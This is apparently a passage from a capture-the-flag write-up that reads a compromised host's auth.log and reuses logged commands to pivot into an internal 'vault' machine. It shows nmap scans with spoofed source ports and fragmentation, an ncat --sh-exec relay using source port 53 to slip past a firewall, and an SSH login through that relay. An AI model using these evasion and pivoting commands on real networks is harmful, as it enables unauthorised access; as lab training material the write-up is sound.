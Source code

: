 We find that auth.log has some interesting items:

{% code overflow="wrap" %}
```
root@DNS:/home/dave# cat /var/log/auth.log
Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:20 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
y=/dev/pts/0 ruser=dave rhost=  user=dave
Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
```
{% endcode %}

After some enumeration, some of which consisted of literally copy-pasting those commands, I see this:

```
root@DNS:/home/dave# nc 192.168.5.2 987 -p 4444
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

Taking the commands above, and applying some proper parsing (and backgrounding it for convenience):

```
root@DNS:/home/dave# /usr/bin/ncat -l 3333 --sh-exec "ncat 192.168.5.2 987 -p 53"&
[1] 1621
root@DNS:/home/dave# 
```

using this, with the creds we found:

```
root@DNS:/home/dave# /usr/bin/ncat -l 3333 --sh-exec "ncat 192.168.5.2 987 -p 53"&
[1] 1621
root@DNS:/home/dave# ssh dave@0.0.0.0 -p 3333
The authenticity of host '[0.0.0.0]:3333 ([0.0.0.0]:3333)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[0.0.0.0]:3333' (ECDSA) to the list of known hosts.
dave@0.0.0.0's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ 
```
